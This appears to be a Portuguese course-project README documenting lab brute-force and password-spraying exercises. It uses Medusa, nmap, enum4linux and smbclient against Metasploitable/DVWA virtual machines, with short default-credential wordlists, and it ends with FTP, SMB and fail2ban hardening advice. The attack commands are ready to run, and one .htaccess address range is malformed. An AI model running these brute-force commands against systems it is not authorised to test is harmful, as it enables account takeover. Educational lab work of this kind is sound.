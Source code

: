 # 📋 DIO e Santander Cibersegurança - 2025
###  Este repositório contém um projeto prático com foco educacional em ataques de força bruta e password spraying, utilizando Kali Linux e a ferramenta Medusa. Os testes descritos foram realizados exclusivamente em ambientes controlados e autorizados (Máquinas Virtuais como Kali + Metasploitable/DVWA) 

 ### 🔧 Ferramentas

 Kali Linux 2024.1

 Medusa 2.2

 Metasploitable 2

 VirtualBox 7.0

### 🗂️ O que tem neste repositório

 • README.md (este arquivo)

• wordlists/ contendo as listas de usuários e senhas utilizadas nos testes (curtas, para demonstração)
Obs: Não foram incluídos logs nem capturas — apenas documentação e wordlists.

### 💻 Comandos que utilizei

### Teste de conectividade

ping -c 3 192.168.18.103

### Reconhecimento

nmap -sV -p 21,22,80,445,139 192.168.18.103

### ⚔️ Ataque FTP (Medusa) — lista de usuários + senhas

medusa -h 192.168.18.103 -U wordlists/users.txt -P wordlists/pass.txt -M ftp -t 6

### Validação de FTP (conexão manual)

ftp 192.168.18.103

### Ataque em formulário web (Medusa — tentativa)

medusa -h 192.168.18.103 -U wordlists/users.txt -P wordlists/pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER^&password=^PASS^&Login=Login' -m Fail='Login failed' -t 6

### 🔎 Enumeração SMB e tentativa de acesso

enum4linux -a 192.168.18.103 | tee enum4_output.txt
smbclient -L //192.168.18.103 -U msfadmin

### Wordlists incluídas

As wordlists são curtas e destinadas à demonstração.

### • wordlists/pass.txt

123456

password

qwerty

msfadmin

### • wordlists/users.txt

user

msfadmin

admin

root

### 🛡️ Medidas de Mitigação e Boas Práticas

### 1. Para Serviço FTP

### Configurações seguras no vsftpd.conf

anonymous_enable=NO

local_enable=YES

write_enable=YES

local_umask=022

chroot_local_user=YES

allow_writeable_chroot=YES



### 2. Para Aplicações Web (DVWA)

### Implementar rate limiting

### Exemplo em .htaccess

<Limit POST>
  
order deny,allow
    
deny from all
    
allow from 192.168.18.100/200
    
</Limit>

### Configurar WAF (Web Application Firewall)

### 3. Para Serviço SMB

### Configurações seguras no smb.conf

[global]

security = user
    
encrypt passwords = yes
    
smb passwd file = /etc/samba/smbpasswd
    
min protocol = SMB2

   ### 📝 4. Medidas Gerais de Segurança

  ### Políticas de Senha

Implementar política de senhas complexas

Mínimo 12 caracteres, maiúsculas, minúsculas, números e símbolos

### Bloqueio por Tentativas

 Configurar fail2ban para proteção
 
 /etc/fail2ban/jail.local
 
[sshd]

enabled = true

maxretry = 3

bantime = 3600

### Autenticação Multi-Fator

Implementar 2FA sempre que possível

Usar Google Authenticator ou similares

### 🎯 Conclusões e Aprendizados

Lições Aprendidas

Ferramentas de Automação: Medusa é extremamente eficiente para testes de força bruta

Importância das Wordlists: A qualidade da wordlist impacta diretamente no sucesso do ataque

Configuração Segura: Serviços mal configurados são a principal vulnerabilidade

Monitoramento Contínuo: Detecção precoce é crucial para mitigação

### 📄 Licença

Este projeto tem finalidade educativa. Adote uma licença apropriada para o repositório (por exemplo, MIT) e deixe claro o uso restrito a ambientes autorizados.













